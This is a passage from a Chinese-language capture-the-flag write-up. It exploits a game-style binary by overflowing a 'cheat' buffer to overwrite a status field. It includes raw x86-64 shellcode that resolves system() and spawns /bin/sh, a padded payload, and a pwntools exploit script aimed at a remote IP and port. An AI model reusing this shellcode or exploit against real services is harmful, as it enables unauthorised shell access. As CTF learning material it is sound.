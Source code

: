 ```c
    getstr((char *)cheat_buf, 16LL);
    puts("content:");
    getstr((char *)(cheat_buf + 16), 32LL);
  }
}
```
300，够影响到status了，事实上，如果动态跟的话，我们会发现status的地址就在cheat_buf+0x98处（如果按照我都步骤做的话）。。。
然后就是构造payload了。。。
```python
paddings = 0x98
shellcode = "\x48\x8b\x1c\x25\x70\x50\x60\x00\x48\x81\xeb\xa0\xed\x03\x00\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\xff\xd3\x90\x90\x90"
payload = 'A'*8 + shellcode + 'A' * (paddings - 8 - len(shellcode)) + p64(0x605098)
```
前面8个'A'是因为_exit的实际会跳转到cheat_buf+8处执行，动态跟一下就知道了，然后说说最后的那个0x605098，反正只要满载p->location不在范围内就好，我随便找的一个.data的地址，这个好像是mmap_initial?不记得了，哪个都一样。。。
shellcode基本上就是获取malloc函数地址，计算system地址，push (QWORD)"/bin/sh\\x00"(刚好是8字节，哈哈)，mov rdi,rsp, call system (伪代码，伪代码，请勿当真)
所以最后exp

```python
from pwn import *
g_local = False
if g_local:
	sh=process("./pwn")
else:
	sh=remote("123.206.22.95",8888)

#pre: in the initial begin status
#post: same as above
def signup(szUsername, szPassword, szCharname):
	global sh
	sh.send("2\n")
	sh.recvuntil("input your username\n")
	sh.send(szUsername + '\n')
	sh.recvuntil("input your password\n")
	sh.send(szPassword + '\n')
	sh.recvuntil("input your character's name\n")
	sh.send(szCharname + '\n')
	sh.recvuntil("2.Signup\n==============================\n")

#pre: in the initial begin status, usernamepasword correct
#post: game begin status
def login(szUsername, szPassword):
	global sh
	sh.send("1\n")
	sh.recvuntil("Input your username:\n")
	sh.send(szUsername + '\n')
	sh.recvuntil("Input your password:\n")
	sh.send(szPassword + '\n')
	sh.recvuntil("0.exit\n")

#pre: game begin status
#post: wo shuo shell ni xin bu?
def cheat_set_payload(szPayload):
	global sh
	sh.send("5\n")
	sh.recvuntil("content:\n")
	sh.send(szPayload)
	sh.interactive()

signup("\xf0\x50\x60", "1", "1")
signup("\x80\x50\x60", "1", "1")
signup("1", "1", "1")
```